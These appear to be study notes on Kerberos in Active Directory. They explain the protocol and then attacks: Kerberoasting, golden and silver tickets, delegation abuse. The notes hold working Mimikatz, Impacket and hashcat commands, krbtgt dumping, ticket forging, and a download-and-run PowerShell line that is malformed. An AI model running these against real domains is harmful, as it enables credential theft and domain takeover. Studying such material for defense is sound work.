


Kerberos
- Designed to lessening authentication related packets transmitted in the network
- Not designed for today's network security
- Loosing KDC means, security is at total loss
Protocol Flow

Ref: https://scriptdotsh.com/wp-content/uploads/2018/10/trust2.png

Source: https://www.varonis.com/blog/kerberos-authentication-explained/

Client - KDC (Pre-Auth) (Kerberos 5+)

- Client constructs an authenticator (request for TGT) containing:
- Identify information - unencrypted.
- Timestamp - encrypted using user's password (hash). User's password (hash) is used as symmetric key.
- When a client sends a request (AS-REQ) for a ticket to the Key Distribution Center (KDC).
- A timestamp is sent encrypted with user's password hash (also called user's long term key).
- [When using SmartCard]
- [non-DH] Timestamp is signed using public-key and public-key is sent to DC
- [DH] Timestamp is signed using public-key and public-key and DH parameters are sent to DC
- If request can be decrypted with user's password hash,
-
And If request's time is within 5 minutes:
- The KDC creates a Ticket-Granting Ticket (TGT) for the client
- Special ticket that permits the client to obtain additional Kerberos tickets within the same Kerberos realm.
- Usually good for 10 hours.
-
Containing:
- client name
- IP address
- timestamp
- validity period - 10 hours max by default
-
Sends (AS-REP) the encrypted TGT + TGS Session Key back to the client
-
User portion (client can decrypt) - Encrypted with user's password (hash), contains:
- TGS Session Key - Usable to encrypt communication between client and TGS
-
[When using SmartCard]
- [non-DH] Encrypted with public-key
- [DH] Encrypted with DH info (?) not public-key
-
Server portion (client cannot decrypt) - Encrypted with KDC's secret key (Domain key / krbtgt account), contains:
- TGT - Permits the client to obtain additional tickets (like TGS) which gives permission for specific services. Contains:
- [Microsoft] Privilege Attribute Certificate (PAC) containing:
- Username
- User's RID
- Group membership
- PAC is signed with:
- Target key (for TGT target key is also KDC key)
- KDC key
- If TGS Session Key can be decrypted using user's password (hash):
- Client stores encrypted TGT and decrypted (?) TGS Session Key in Kerberos Tray
- Always lives in memory
- Never saved into disk
- Kerberos Tray can be explored with
kerbtray


Client - Service Authentication
- TGS - Ticket granting service is a KDC component that issues a service ticket when a client requests connection to a Kerberos service.
- Client sends following to TGS (TGS-REQ)
- Copy of TGT
- TGS can decrypt this using KDC's secret key
- Name of the service
- Time stamped client ID encrypted with TGS Session Key
- TGS can decrypt this using user's password (hash)
- TGS will return (TGS-REP):
- User Portion (User can decrypt) - Encrypted with TGS Session Key
- Service Session Key
- Validity time
- Server Portion / Service Ticket (User cannot decrypt) - Encrypted with service secret key
- Privilege Attribute Certificate (PAC)
- 2 HMAC signatures:
- Target key - Service account's hash (might be crackable)
- KDC Key - Krbtgt account's hash (not easily crackable)
- Service Session Key
- User details
- TGS will not do a permission validation.
- If user has a valid TGT that is all it takes to obtain a TGS.
- Validating if the user has access to the service is up to the service.
- Service Session Key and Service Ticket is stored in Kerberos Tray (?)
- Client send the following to service when necessary:
- Encrypted Service Ticket
- Time stamped authenticator encrypted with the Service Session Key
- Service will:
- Decrypt the Service Ticket with its secret and validate both HMAC
- Validate timestamped authenticator.
- If both are fine, decrypted Service Ticket and check Privilege Attribute Certificate (PAC) to decide if access should be granted.
- 2 HMAC signatures during PAC Validation:
- Target key - Service account's hash (might be crackable)
- Always verified
- KDC key - Krbtgt account's hash (not easily crackable)
- Verified with KDC "sometimes" (since data should be sent to KDC for verification)
- Windows send PAC Validation message to NetLogin service of DC if:
- TCB (act as part of the OS) privilege is not there and it is not a Service Control Manager (SCM) account.
- :. generally if application is running as a service in local system, hash is not checked:
- SQL Server, Exchange server: Generally does not check
- App pools in web servers: Always check
- Can be asked to check always using regkey "ValidateKdcPacSignature"
- Service may:
- Send a response with timestamp encrypted with the Service Session Key
- Client decrypt and verify to prevent MitM
Inter-forest Authentication
- Instead of encrypting with Domain1’s krbtgt account, a ticket is encrypted/signed with the inter-realm trust key that the domains previously exchanged, which is called as an “Inter-realm ticket-granting-ticket/TGT.”
- Then Domain2 verifies the TGT included in the referral, decrypts it with the previously negotiated inter-realm trust key and proceeds further. An inter-realm TGT can be forged.
Services (Microsoft Implementation)
- When a domain account is configured to run a service (ex: MS SQL) in the environment, a Service Principal Name (SPN) is used in the domain to associate the service with a login account.
krbtgt password
- Changes with domain functional level update (ex: NT5 -> NT6)
- Recovery from restore media
- Manually changed (compromise recovery)
Formats
- Encoded in ASN.1
- Kerberos Tickets are in KRB-CRED format: RFC4120
- Microsoft Specific PAC format: cc237917
Attack Patterns
Kerberoast
The process of cracking Kerberos service tickets and rewriting them in order to gain access to the targeted service.
- Doesn’t require any interaction with the service
- as legitimate active directory access can be used to request and export the service ticket
- which can be cracked offline in order to retrieve the plain-text password of the service
- because service tickets are encrypted with the hash (NTLM) of the service account
- so any domain user can dump hashes from services without the need to get a shell into the system that is running the service.
- Any domain user has the rights by default on a standard domain to:
- To request a Service Ticket for any service.
- Permission checks are done later at the service.
- Request a copy of the service accounts.
- Request correlating password hash relevant to service accounts (?)
Crackable and important tickets can be identified by considering:
- SPNs bind to domain user accounts
- Password last set
- Password expiration
- Last logon
Tips
- Look for SQL Server instances with domain admin used as the service account
- This is not recommended
- Instead, each service should use separate user accounts
- SMB by default use a computer account
- Exchange server defaults to user account
Step 1 - Service Provider Name (SPN) and SPN Discovery
- Format:
ServiceType/Host[:Port][/DistinguishedName] [ServiceAccountName] - Users system doesn't know the account running the service
- But KDC needs this info, so that Service Ticket can be encrypted using that account's hash
- SPN is the name by which
- a Kerberos client uniquely identifies an instance of a service
- for a given Kerberos target computer
- KDC has a mapping between ["Service" to "Account"]
- A given service instance can have multiple SPNs
- if there are multiple names that clients might use for authentication.
- SPN always includes the name of the host computer
- A SPN is registered for each host alias
- Point users to the appropriate resource for connection
- Discovery via LDAP queries
- Help in identify hosts that are running important services
- Look for services associated with "User" accounts (can be easier to crack, compared to "Computer" accounts) - GetUserSPNs
- List of SPNs: https://adsecurity.org/?page_id=183
References
Tools
SetSPN
Can, view, edit, and delete SPN registrations.
- Register
setspn -s ServiceClass/Host:Port AccountNamesetspn -s FIMService/FIMSVR.contoso.com CONTOSO\FIMService(-s verify that there are no duplicates)setspn -s http/CES1.corp.contoso.com CORP\CES- View all the mappings:
setspn -L hostname(?)setspn -T pentestlab -Q */*- Delete:
setspn -d ServiceClass/Host:Port AccountName - Reset SPN registrations for account:
setspn -r AccountName - Re-register all SPNs for a given host:
setspn -R hostname - Discover missing SPNs:
DCDIAG /s:ServerName /c /v - Write back computer account's AD replication SPN:
DCDIAG /fix - Restart NTDS:
net stop ntds && net start ntds - Check DC security errors (duplicate SPNs, etc):
DCDIAG /test:checksecurityerror
GetUserSPNs
- Query the active directory to discover only services that are associated with a user account
- Part of: https://github.com/nidem/kerberoast
powershell_import /root/Desktop/GetUserSPNs.ps1cscript.exe GetUserSPNs.vbs
PowerShell AD Recon
-
Query the Active Directory for interesting services such as Exchange, Microsoft SQL, Terminal etc
powershell_import /root/Discover-PSMSSQLServers.ps1
powershell_execute Discover-PSMSSQLServers
powershell_import /root/Discover-PSMSExchangeServers.ps1
powershell_execute Discover-PSMSExchangeServers
- Find service accounts:
powershell_import /root/Find-PSServiceAccounts.ps1
powershell_execute Find-PSServiceAccounts
###### Empire
usemodule situational_awareness/network/get_spn
PowerShellery
Get-SPN -type service -search "*" -List yes | Format-Table
Get-SPN -type service -search "*"
Get UserSID, the service and the actual User.
Import-Module .\Get-DomainSpn.psm1
Get-DomainSpn
Impacket
Valid domain credentials are required for communication with the Active Directory as token based authentication cannot be used.
./GetUserSPNs.py -dc-ip 10.0.0.1 pentestlab.local/test
Step 2 - Request Service Tickets
Request is sent to the KDC, hence it's not required that service is accessible, available or even exit anymore.
Request the service ticket for a specific SPN:
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "PENTESTLAB_001/WIN-PTELU2U07KG.PENTESTLAB.LOCAL:80"
Alternatively, use Mimikatz by specifing target as the service principal name:
kerberos::ask /target:PENTESTLAB_001/WIN-PTELU2U07KG.PENTESTLAB.LOCAL:80
List all available cached tickets:
klist
Invoke-Mimikatz -Command '"kerberos::list"'
load kiwi
kerberos_ticket_list
kiwi_cmd kerberos::list
Request Kerberos service tickets that belong to domain users only which should be easier to cracked compared to computer accounts service tickets (requires valid domain credentials in order to interact with the Active Directory since it will executed from a system that is not part of a domain):
./GetUserSPNs.py -request pentestlab.local/test
Automatically identify weak service tickets based on user account and password expiry (RiskySPN: https://github.com/cyberark/RiskySPN):
Find-PotentiallyCrackableAccounts -FullData -Verbose
All user accounts that have an associated SPN:
Find-PotentiallyCrackableAccounts -Domain "pentestlab.local"
Export to CVS (offline cracking):
Export-PotentiallyCrackableAccounts
Get service tickets for service instance by its SPN:
Get-TGSCipher -SPN "PENTESTLAB_001/WIN-PTELU2U07KG.PENTESTLAB.LOCAL:80"
Various functions that can be executed to request, list and export service tickets: Auto-Kerberoast
List-UserSPNs
List-UserSPNs -Domain "pentestlab.local"
Mass request tickets (ticket for each account)
Add-Type -AssemblyName System.IdentityModel
setspn.exe -T lab.local -Q */* | Select-String '^CN' -Content 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
./GetUserSPNs.ps1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.ServicePrincipalName }
Step 3 - Export Service Tickets
List all available tickets from memory and save in remote host:
Invoke-Mimikatz -Command '"kerberos::list /export"'
PowerShell Empire:
usemodule credentials/mimikatz/extract_tickets
standard::base64
kerberos::list /export
Extract Ticket hashes for services that support Kerberos authentication:
usemodule credentials/invoke_kerberoast
AutoKerberoast will request and extract all the service tickets in base64 format.
Invoke-AutoKerberoast
Invoke-AutoKerberoast -GroupName "Domain Admins" -Domain pentestlab.local -HashForm
Extract hashed in different formats (John, Hashcat and Kerberoast) - eliminates the need of Mimikatz for ticket export
Get-TGSCipher -SPN "PENTESTLAB_001/WIN-PTELU2U07KG.PENTESTLAB.LOCAL:80" -Format John
Extract TGT responses from PCAP:
extracttgsrepfrompcap.py
Step 4 - Crack Service Tickets
python tgsrepcrack.py /root/Desktop/passwords.txt PENTESTLAB_001.kirbi
Extract the Hash from Service Ticket
python extractServiceTicketParts.py PENTESTLAB_001.kirbi
tgscrack.exe -hashfile hash.txt -wordlist passwords.txt
If PowerShell remoting is enabled then the password that has been retrieved from the service ticket can be used for execution of remote commands and for other lateral movement operations.
Enable-PSRemoting
$pass = 'Password123' | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList 'PENTESTLAB_001', $pass
Invoke-Command -ScriptBlock {get-process} -ComputerName WIN-PTELU2U07KG.PENTESTLAB.LOCAL -Credential $creds
Dump returned service account with its correlating password hash:
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/nettitude/PoshC2/master/Modules/powerview.ps1 Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash1.txt"
hashcat64.exe -m 13100 "C:\Hash1.txt" C:\Rocktastic12a --outfile="C:\OutputHash1.txt"`
Step 5 - Rewrite Service Tickets & RAM Injection
- Kerberos tickets are signed with the NTLM hash of the password.
- If the ticket hash has been cracked then it is possible to rewrite the ticket with Kerberoast python script.
- Allow:
- Impersonate any domain user when the service is going to be accessed.
- Privilege escalation is also possible as the user can be added into an elevated group such as Domain Admins.
python kerberoast.py -p Password123 -r PENTESTLAB_001.kirbi -w PENTESTLAB.kirbi -u 500
python kerberoast.py -p Password123 -r PENTESTLAB_001.kirbi -w PENTESTLAB.kirbi -g 512
- Also fake account. Use Mimikatz to generate ticket (change RID of the account to 1106):
kerberos::golden
/domain:lab.local
/sid:<sid>
/groups:123,124,125
/target:target.local
/service:MSSQLSvc
/ticket:target.local.kirbi
/rc4:<service's hash>
/ppt
/id:1106
/user:tm
/ppt will directly inject the fake account into memory.
/id and /user can be invalid values, so that logs will be useless
/groups can be altered to add user to domain-admin
The new ticket can be injected back into the memory with
kerberos::ptt PENTESTLAB.kirbi
Defense
- Use
*-ADServiceAccountcmdlet to create service accounts - Pick really random, good passwords (25+ chars )
- Monitor DC for bursts of Service Ticket requests (Event ID 4769)
- Force services to verify PAC
- Doesn't prevent cracking
- Prevent writing
- Can impact performance
Golden Ticket
-
Ticket not made by KDC (ticket is self-made)
-
Not limited by GPO
-
Smart-card independent
-
Hence, it's possible to push anything
-
Since we have krbtgt
- Can modify PAC
-
Group ID, SID, Username
-
Kerberos is stateless
-
All account policy is client side enforcement
- Disabled / Expiry / Logon hours
- Silo memberships
- Protected Users and other group memberships
-
With Kerberos 5 - TGS / KDC has no way of validating that account is still valid when presented with TGT.
-
Microsoft implement:
-
If TGT is older than 20 mins the TGS will validate the account with KDC when issuing a service ticket. Account validity and check enabled state is checked.
-
However, with Golden Ticket we issuer our own TGT. Therefore, it is possible to issue TGT with recent issued-times to bypass this check.
-
Why attack on TGT, but not on TGS?
- Service account passwords are rotated every 30-40 days.
- Krbtgt account password is never changed.
- A singled TGT can get many TGS.
| Ticket Encryption | PAC KDC Signature | PAC Server Signature | |
|---|---|---|---|
| TGT | krbtgt | krbtgt | krbtgt |
| TGS | target | krbtgt | target |
Generating "Golden Ticket":
- KDC key (krbtgt)
- SID of the domain (whom, psgetsid)
- Domain name
lsadump::lsa /inject /name:krbtgt
kerberos::golden /domain:<domain>
/sid:<domain-sid>
/rc4:<ntlm-hash-of-krbtgt>
/user:Administrator
/id:500 <- RID of the user (500 is domain admin)
/groups:513,512,520,518,519
/ticket:Administrator.kirbi <- ticket filename
Silver Tickets
- Password hashes of service accounts could be used to create
- Kerberos session ticket (TGS) has a sever portion which is encrypted with the password hash of the service account.
- Can request a ticket and do offline brute forcing.

https://drive.google.com/open?id=1iSXKVgkO_U61MCf0ItaZgyMt-406pWdD
- KDC does not handle authorization
- Can request TGS for any service
- TGS is encrypted using target-service NTLM hash
- .:. it is possible to brute-force the TGS to get target-service account credentials
Find Service Accounts
GetUserSPNs
https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py
PowerView (SPN = Service Principal Name)
Get-Netuser -SPN
ActiveDirectory Module
Install-ActiveDirectoryModule -DllPath C:\AdModule\Microsoft.ActiveDirectory.Management.dll ADModulePath C:\AdModule\ActiveDirectory.psd1
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
Request SPN Ticket
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<server-name>"
PowerView
Request-SPNTicket
Save Tieket
List all tickets in cache (check if granted)
klist
Mimikatz
Invoke-Mimikatz -Command '"kerberos::list /export"'
Bruteforce
python.exe .\tgsrepcrack.py .\password.txt '<ticket>'
or use John
Smart Card Authentication with DH Keys
- If certificate based authentication is required DH must be implemented (as per spec)
- RFC 4556
- RFC 5349
- Microsoft improved current protocol with draft:
- https://tools.ietf.org/html/draft-ietf-kitten-pkinit-freshness-07
- https://datatracker.ietf.org/meeting/91/session/kitten
- https://datatracker.ietf.org/meeting/91/materials/slides-91-kitten-1.pdf
- In order for GPO to work full network should be aware of it (> Windows 10 & 2016)
- Detect using IPS rule to inspect AS-REQ (AS-REQ is now signed, not encrypted)
Attacking Windows PKI
- Mimikatz can export Windows CA (NTAuth certificate store )
- Ask PKI server to generate a raw certificate (with any required expiry and any required user) without CRLDP so that cert cannot be revoked.
Kerberos Delegation
- Allows reusing the end-user credentials to access resources hosted on a different server.
- Used when
Kerberos Double Hopis required. - Impersonating the incoming/authentication user is necessary to work.
- Types:
- Unconstrained (only Windows Server 2003 <) - Allow authentication to any service in the domain
- Constrained
Unconstrained Kerberos Delegation

{kind=link}
https://drive.google.com/open?id=1VZvQcin4RN7PkByplk-LhI1P3mrCoJXY
- User provide credentials to DC
- DC returns TGT
- User request TGS for web service
- DC provides TGS (TGS contains user's TGT)
- User sends TGT and TGS to web Server
- Web server service account use user's TGT to request a TGS got database server from DC
- Web server service account can decrypt TGS and extract the user's TGT
- This is because TGS is encryoted with web server service account's NTLM hash
- Web server service account connects to database impersonating the user
Identifying Nodes with Unconstrained Delegation Enabled
Get-NetComputer -UnConstrained
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
Attack Pattern
- Compromise the server that use unconstrained delegation
- Wait for a high privileged connect
- Once connected, export all the tickets including TGT for that User
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
Reuse tickets with
Invoke-Mimikatz -Command '"kerberos::ppt C:\tickets\admin.kirbi"'
Constrained Kerberos Delegation
- Only provide access to specified services on a specifiv computer
- Service account must have TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION - T2A4D UserAccountControl attribute
- Service account can asccess all services specified in msDS-AllowedToDelegateTo attribute
Identifying Users with Unconstrained Delegation Enabled
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
Install-ActiveDirectoryModule -DllPath C:\AdModule\Microsoft.ActiveDirectory.Management.dll ADModulePath C:\AdModule\ActiveDirectory.psd1
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
Attack Patterns
- Protocol Transition used in SSO
- Delegation occurs not only for the specific service but for any service running under the same account. No validation for the SPN specified.
https://labs.mwrinfosecurity.com/blog/trust-years-to-earn-seconds-to-break/
Attacks
Pass-the-ticket: the process of forging a session key and presenting that forgery to the resource as credentials
Golden Ticket: A ticket that grants a user domain admin access
Silver Ticket: A forged ticket that grants access to a serviceCredential stuffing.
Brute force: automated continued attempts to guess a password
Encryption downgrade with Skeleton Key Malware: A malware that can bypass Kerberos, but the attack must have Admin access
DCShadow attack: a new attack where attackers gain enough access inside a network to set up their own DC to use in further infiltration
Reference:
- https://docs.microsoft.com/en-us/windows/desktop/secauthn/authentication-portal
- https://docs.microsoft.com/en-us/windows/desktop/secauthn/microsoft-kerberos
https://drive.google.com/open?id=1eaQki6QuqfbHqMfkaKH66z2OAnI0lV0H
Tim Medin - Attacking Kerberos: Kicking the Guard Dog of Hades
- Attacking Microsoft Kerberos Kicking the Guard Dog of Hades Tim Medin
- https://blog.redforce.io/oh-my-kerberos-do-not-get-kerberoasted/